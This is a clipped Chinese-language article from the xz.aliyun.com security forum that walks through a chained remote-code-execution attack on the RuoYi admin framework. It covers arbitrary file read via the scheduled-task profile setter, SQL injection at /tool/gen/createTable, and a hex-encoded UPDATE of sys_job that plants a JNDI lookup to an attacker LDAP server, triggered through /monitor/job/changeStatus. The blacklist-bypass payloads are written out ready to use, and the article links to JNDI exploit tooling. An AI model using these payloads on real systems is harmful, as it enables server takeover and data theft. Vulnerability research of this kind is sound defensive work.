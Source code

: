 ```yaml
---
title: 最新 Ruoyi 组合拳 RCE 分析 - 先知社区
url: https://xz.aliyun.com/t/13958
clipped_at: 2024-03-20 10:19:55
category: default
tags: 
 - xz.aliyun.com
---
```



# 最新 Ruoyi 组合拳 RCE 分析 - 先知社区

## 开门见山

最新版 ruoyi rce 的方法依旧是在定时任务处：定时任务中可以调用特定包内的 bean，通过 `genTableServiceImpl` 直接执行 sql 来更改定时任务内容，从而绕过黑白名单的限制。既然是组合拳 rce，因此就先分析下另外两个漏洞，而 rce 自然而然就出来了

## 定时任务 + 文件读取 = 任意文件读取

先来简单聊一下若依任意文件读取（CVE-2023-27025），影响版本在 4.7.6 之前  
众所周知，ruoyi 计划任务能调用 bean 或者 class 类，这里就是通过调用 `ruoYiConfig.setProfile`，来更改本地上传文件路径  
[![](assets/1710901195-3f0771cac94c5e2d24b3257cb68378b8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229190447-5a3231d8-d6f2-1.png)  
且该 bean 包名能通过黑白名单校验  
[![](assets/1710901195-32dfc14dfd0a4c11b61fa3fc4e492680.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229190458-6072bab8-d6f2-1.png)  
`/common/download/resource` 接口能读取文件  
虽然前端对传入文件名 `resource` 进行过滤，**但本地资源路径通过上文计划任务变为可控**，此时更改 `ruoYiConfig.setProfile` 的配置文件为任意想要读取的文件即可，也就达到了任意文件读取效果  
[![](assets/1710901195-db245a0216164334029fe9b93974415c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229190515-6ab271b2-d6f2-1.png)

[![](assets/1710901195-c76493e5f39ed9b5260a0d5f28465f8a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229192118-a8855688-d6f4-1.png)

## createTable 处的 Sql 注入

在 ruoyi 4.7.5 版本之前，后台存在 sql 注入  
接口 `/tool/gen/createTable` 处，定位到代码，其功能为创建数据表。将 sql 语句直接从前端传入，并执行  
[![](assets/1710901195-8234fda03d723ef00487fae824669dc8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229190541-79deef76-d6f2-1.png)  
Mapper 语句：

```plain
<update id="createTable">
      ${sql}
</update>
```

[![](assets/1710901195-bef0e3c0206d8e54c243d966518b8803.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229192427-199acf60-d6f5-1.png)

## 定时任务 + SQL 注入 = RCE

根据上文的注入可以找到 `genTableService` 的实现类：`GenTableServiceImpl`，该类同样满足黑白名单条件  
[![](assets/1710901195-9b08020d18aca8a2165127a3aeb084db.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229190611-8c03c474-d6f2-1.png)  
在启动类中我们可以修改代码如下，打印出项目中所有加载的 bean，

```plain
ConfigurableApplicationContext run = SpringApplication.run(RuoYiApplication.class, args);
String[] beanDefinitionNames = run.getBeanDefinitionNames();
for (String beanDefinitionName : beanDefinitionNames) {
    System.out.println(beanDefinitionName);
}
```

[![](assets/1710901195-dfbadb2b980b5c4d136e8e7ed6280750.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229190647-a1b4a676-d6f2-1.png)  
于是我们可以调用 `genTableServiceImpl.createTable` 实现 sql 语句执行  
ruoyi 黑白名单校验仅出现在 `com.ruoyi.quartz.controller.SysJobController#addSave`，而任务状态修改接口中并没有添加

[![](assets/1710901195-e1846444e88465c796e9ad3d3de0c18a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229190736-be901528-d6f2-1.png)  
如果我们配合上文的注入在 `sys_job` 数据表中直接插入恶意计划任务，即可不调用 `addSave` 方法添加计划任务内容，成功绕过黑白名单限制  
数据库中计划任务表结构如下

[![](assets/1710901195-6cb8cdab6ffc1e294a39aa1beac4a2ba.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229190808-d1c88ff8-d6f2-1.png)  
这里选择图个方便，直接使用 update 来修改 invoke\_target 为 Jndi payload：

```plain
javax.naming.InitialContext.lookup('ldap://192.168.44.84:1389/Deserialization/URLDNS/ekwzmxtyim.dgrh3.cn')
```

updata 执行语句为

```plain
genTableServiceImpl.createTable("UPDATE sys_job SET invoke_target = \"javax.naming.InitialContext.lookup('ldap://192.168.44.84:1389/Deserialization/URLDNS/ekwzmxtyim.dgrh3.cn')\" WHERE job_id = 3;")
```

但会触发黑名单

[![](assets/1710901195-c9d4e26ecb59a4b09f991e7d28838aa6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229191218-66cdfb92-d6f3-1.png)  
既然是执行 sql 语句，直接将 value 转为 16 进制即可

```plain
genTableServiceImpl.createTable('UPDATE sys_job SET invoke_target = 0x6a617661782e6e616d696e672e496e697469616c436f6e746578742e6c6f6f6b757028276c6461703a2f2f3139322e3136382e34342e38343a313338392f446573657269616c697a6174696f6e2f55524c444e532f656b777a6d787479696d2e64677268332e636e2729 WHERE job_id = 3;')
```

此时是能成功执行 `org.quartz.Scheduler#scheduleJob` 来调度任务的

[![](assets/1710901195-068e6cdf1fc698e6da34e5dfc2a33507.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229191249-79768e1c-d6f3-1.png)  
成功更新 sys\_job 数据

[![](assets/1710901195-5cc14b362d371655d8c8146ffdcb4f60.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229191300-7ff89546-d6f3-1.png)

### 漏洞复现

启动 jndi 利用工具：

[![](assets/1710901195-f82f449d10ecd67b716cb98efffe3c94.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229191310-85be9a7a-d6f3-1.png)  
添加任务：修改 id 为 3 的计划任务为 jndi payload，并执行

```plain
genTableServiceImpl.createTable('UPDATE sys_job SET invoke_target = 0x6a617661782e6e616d696e672e496e697469616c436f6e746578742e6c6f6f6b757028276c6461703a2f2f3139322e3136382e34342e38343a313338392f446573657269616c697a6174696f6e2f55524c444e532f656b777a6d787479696d2e64677268332e636e2729 WHERE job_id = 3;')
```

[![](assets/1710901195-8fe1d25d5c8a386401c785b92a6a3bac.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229191326-8f809360-d6f3-1.png)  
此时任务 3 的调用字符串已经是 Jndi payload 了，后面直接通过 `/monitor/job/changeStatus` 接口直接更改任务状态触发 Jndi

[![](assets/1710901195-29ffa3c59cd29a96e0c3e326d13c9a98.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229191343-995fcc48-d6f3-1.png)

[![](assets/1710901195-174648a5824bc7d438f6f853d1940ae9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229191346-9b73ad9c-d6f3-1.png)  
此外根据 ruoyi 默认依赖，还可以使用 [jndi-plus](https://github.com/cckuailong/JNDI-Injection-Exploit-Plus/blob/master/README_zh.md "jndi-plus") 的 jackson 反序列化来实现 rce

[![](assets/1710901195-c289e6ac73bc58204fc1664691cb5935.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229191441-bbc85822-d6f3-1.png)

[![](assets/1710901195-d1dff8e87e04f309df5a76621aea59d3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229191450-c15017ee-d6f3-1.png)

## 参考文章

[https://github.com/cckuailong/JNDI-Injection-Exploit-Plus/blob/master/README\_zh.md](https://github.com/cckuailong/JNDI-Injection-Exploit-Plus/blob/master/README_zh.md)  
[https://github.com/luelueking/RuoYi-v4.7.8-RCE-POC](https://github.com/luelueking/RuoYi-v4.7.8-RCE-POC)
